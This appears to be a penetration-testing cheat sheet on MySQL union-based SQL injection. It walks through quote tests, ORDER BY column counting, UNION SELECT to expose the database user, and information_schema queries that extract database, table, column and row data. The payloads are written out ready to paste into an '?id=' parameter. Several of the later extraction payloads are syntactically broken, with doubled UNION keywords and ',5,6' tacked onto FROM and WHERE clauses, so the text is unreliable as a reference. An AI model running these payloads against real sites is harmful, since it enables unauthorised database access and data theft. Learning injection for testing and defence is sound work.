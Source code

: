 ### Ports
Default ports 3306

### Access
mysql -u <username> -p 

### SQL Injection 
## Enumeration
1. Try single and double quotes; ?id=1' or ?id=1". If SQL errors are returned, you have escaped the input area of the SQL string.
2. Comment out the rest of the SQL query with '--+ ' (Note the space after the '+')

To find out how many columns in the table where '?id=' is present, use the ORDER operator by starting at 1, and increasing the value until an SQL error is returned. The column count equals the amount prior to the SQL error.

### ORDER Operator
> https://www.w3schools.com/sql/sql_orderby.asp
> Example below
> SELECT column1, column2, ...
> 
> FROM table_name
> 
> ORDER BY column1, column2, ... ASC|DESC;

Example of ORDER used in an injection:
> "?id=1' ORDER by 1--+ "
> 
> "?id=1' ORDER by 2--+ "
> 
> "?id=1' ORDER by 3--+ "
> 
> "?id=1' ORDER by n--+ "

An SQL error "Unknown column '4' in 'order clause'" may be returned when the column integer in the ORDER operator doesn't exist, so now we know there are 3 columns in this table, which means we can start playing with the values within these columns and see what we can find.

### UNION operator
> https://www.w3schools.com/sql/sql_union.asp
> 
> ?id=1' UNION select 1,2,3 --+ 
This returns '2' and '3'. 

Changing the query to the following:

> ?id=1' union select 1,5,6 --+

Returns '5' and '6'. 

We can now see these two fields can be used to return information from the SQL database, for exaple lets get the SQL user used for this lookup by using the 'user()' function.
> ?id=1' union select 1,5,6 --+
> ?id=1' union select 1,user(),6 --+

This returns '*root@localhost*', so we can establish that the SQL database is local to the web server, and the username is '*root*'.

**A list of functions for SQL can be found here: https://www.w3schools.com/sql/sql_ref_mysql.asp**

Some interesting functions:

1. version()
2. system_user()
3. database()
  
Retrieve database names:
> ?id=1' union select UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata,5,6 --+
 
Retrieve table names:
> ?id=1' UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='database1'--,5,6 --+

Retrieve column names:

> ?id=1' UNION ALL SELECT NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='table1',5,6 --+

Retrieve data:

 > ?id=1' UNION ALL SELECT NULL,concat(0x28,column1,0x3a,column2,0x29) FROM table1,5,6 --+
